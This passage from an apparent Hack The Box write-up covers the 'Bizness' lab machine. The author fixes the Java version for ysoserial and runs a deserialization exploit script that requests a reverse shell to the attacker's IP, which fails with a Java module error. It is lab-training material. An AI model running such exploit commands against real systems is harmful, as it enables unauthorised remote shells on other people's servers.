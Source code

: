 Looks like the wrong JDK for `ysoserial`.

```console
$ sudo apt install openjdk-11-jdk
[sudo] password for kali:
Reading package lists... Done
...

$ sudo update-alternatives --config java
There are 3 choices for the alternative java (providing /usr/bin/java).
  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-21-openjdk-amd64/bin/java   2111      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode
  3            /usr/lib/jvm/java-21-openjdk-amd64/bin/java   2111      manual mode
Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/java to provide /usr/bin/java (java) in manual mode

$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.20-ea 2023-07-18
OpenJDK Runtime Environment (build 11.0.20-ea+7-post-Debian-1)
OpenJDK 64-Bit Server VM (build 11.0.20-ea+7-post-Debian-1, mixed mode, sharing)

$ python3 ./x.py https://bizness.htb/control shell 10.10.14.12:443
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Not Sure Worked or not
```

Unfortunately, no reverse shell popped.

```console
$ python3 ./x.py https://bizness.htb/control shell 10.10.14.12:443
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0xb121a86) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0xb121a86
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
Please make sure from data
^ rc=1
```

This exploit worked, partially, the first time I did this box, but now…nothing. I say "partially" because I never could get a reverse shell, but I was able to spawn a bind shell. After poking at this for a while I have a feeling HTB considered this an unintended path and closed it.

So, I'll try fuzzing that endpoint. Everything returns 200 status codes so I need to filter by regex.
